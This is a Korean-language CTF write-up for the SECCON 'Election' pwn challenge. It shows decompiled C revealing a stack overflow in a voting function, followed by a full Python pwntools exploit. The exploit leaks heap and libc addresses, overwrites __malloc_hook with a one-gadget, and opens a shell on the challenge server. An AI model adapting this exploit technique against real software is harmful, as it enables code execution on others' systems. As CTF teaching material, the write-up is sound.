

Election 200 (Solver : 54)
=============

### 1. Introduction

| RELRO      | STACK CANARY | NX         | PIE    | RPATH    | RUNPATH    | FILE     |
|------------|--------------|------------|--------|----------|------------|----------|
| Full RELRO | Canary found | NX enabled | No PIE | No RPATH | No RUNPATH | election | 

x64 바이너리이며 취약점은 쉬우나 leak이 힘들었다.

### 2. Vulnerability
```c
unsigned __int64 vote()
{
  const char *v0; // rsi
  const char **i; // [rsp+8h] [rbp-48h]
  char s1; // [rsp+10h] [rbp-40h]
  __int64 v4; // [rsp+30h] [rbp-20h]
  char v5; // [rsp+38h] [rbp-18h]
  unsigned __int64 v6; // [rsp+48h] [rbp-8h]

  v6 = __readfsqword(0x28u);
  v5 = 1;
  if ( (unsigned int)lv <= 2 )
  {
    lv = 2;
    printf("Show candidates? (Y/n) ");
    getnline(&s1, 32LL);
    v0 = "n";
    if ( strcasecmp(&s1, "n") )
    {
      puts("Candidates:");
      for ( i = (const char **)list; i; i = (const char **)i[1] )
      {
        v0 = *i;
        printf("* %s\n", *i);
      }
    }
    printf("Enter the name of the candidate.\n>> ", v0);
    getnline(&s1, 32LL);
    if ( !strcasecmp(&s1, "oshima") )
    {
      v4 = find_list("ojima", "oshima");
      if ( v4 )
      {
        printf("I'm not 'Oshima', but 'Ojima'!\nWould you modify the name and re-vote?\n>> ");
        getnline(&s1, 48LL);
        if ( !strcasecmp(&s1, "yes") )
          *(_DWORD *)(v4 + 16) += v5;
      }
    }
    else
    {
      v4 = find_list(&s1, "oshima");
      if ( v4 )
      {
        *(_DWORD *)(v4 + 16) += v5;
      }
      else
      {
        printf("'%s' is invalid vote :(\n", &s1);
        ++inv_votes;
      }
    }
  }
  else
  {
    puts("The voting has already closed.");
  }
  return __readfsqword(0x28u) ^ v6;
}
```
위 소스에서 oshima를 입력할 때 bof가 발생하여 v4와 v5값을 덮을 수 있다. 즉 원하는곳에 1바이트를 쓰는것이 가능하다.

### 3. Exploit

처음 생각한 솔루션은 candidate list의 pointer를 덮어서 leak을 하고 힙 내용을 잘 맞춰줘서 한번더 bof를 이용해 malloc_hook에 oneshot을 쓰려했다. 하지만 널바이트가 존재하면 입력을 그만받기때문에 한번 릭을 하고서 bof를 다시 발생시키기 어려웠다.

그래서 leak을 불러오는 chunk의 마지막 1바이트를 "\x00"로 설정해서 가장 마지막에 있는 청크를 불러와 1씩 더해줘서 heap을 leak했다. heap leak이 성공하면 그걸로 libc를 leak malloc_hook에다가 oneshot을 넣어주면 exploit할 수 있다.
```python
from ntpwn import *

#s = process('./election')
s = remote('election.pwn.seccon.jp',28349)
e = ELF('./election')
l = ELF('/lib/x86_64-linux-gnu/libc.so.6')

'''
b = BP(s)
b.bp('tracemalloc on')
b.bp64(0xba1)
b.bp('c')
b.done()
'''

prompt = '>>'
lv = 0x602010

def stand(name):
	s.sendlineafter(prompt,'1')
	s.sendlineafter(prompt,name)

def vote(yn,candidate):
	s.sendlineafter(prompt,'2')
	s.sendlineafter(' (Y/n) ',yn)
	s.sendlineafter(prompt,candidate)

def result():
	s.sendlineafter(prompt,'3')

stand(p64(e.got['puts']))

# Tatsumi -> name_pointer + 0x20
for i in range(0x20):
	vote('Y','oshima')
	s.sendafter(prompt,"yes\x00\x00\x00\x00\x00" +  "A" * 0x18)

# Leak Heap
s.sendafter(prompt,'2')
s.sendafter('n)','Y')
s.recvuntil('e\n* ')
heap_base = u32(s.recv(4)) - 0x70

# 4byte -> 3byte
if heap_base % 0xa000000 < 0x1000000 :
	heap_base = heap_base % 0xa000000

log.info("HEAP BASE : " + hex(heap_base))

s.sendafter(prompt,'\x0a')

# Shinonome -> next_pointer + 0xb0 (puts_got)
for i in range(4):
	vote('n','oshima')
	s.sendafter(prompt,"yes\x00\x00\x00\x00\x00"+"A" * 0x18+p64(heap_base+0x58-0x10)+"\x38")

# Leak Libc
s.sendafter(prompt,'2')
s.sendafter('n)','Y')
s.recvuntil('e\n* ')
libc_base = u64(s.recv(6) + "\x00" * 2) - l.symbols['puts']
malloc_hook = libc_base + l.symbols['__malloc_hook']
oneshot = libc_base + 0xf0274

log.info("LIBC BASE : " + hex(libc_base))
log.info("ONESHOT : " + hex(oneshot))

s.sendafter(prompt,'\x0a')

# __malloc_hook -> oneshot
for i in range(6):
	vote('n','oshima')

	one_byte = u32(p64(oneshot)[i] + "\x00" * 3)

	if one_byte > 128:
		print "NoNo!!"
		exit()

	payload = "yes\x00\x00\x00\x00\x00"+"A" * 0x18+p64(malloc_hook-0x10+i) + p32(one_byte)

	s.sendafter(prompt,payload)

# lv -> 1
vote('n','oshima')
s.sendafter(prompt,"yes\x00\x00\x00\x00\x00"+"A" * 0x18+p64(lv-0x10)+"\xff")

pause()
# malloc triger
s.sendlineafter(prompt,'1')
s.sendlineafter(prompt,'NEXTLINE')

s.interactive()
```

### 4. Flag

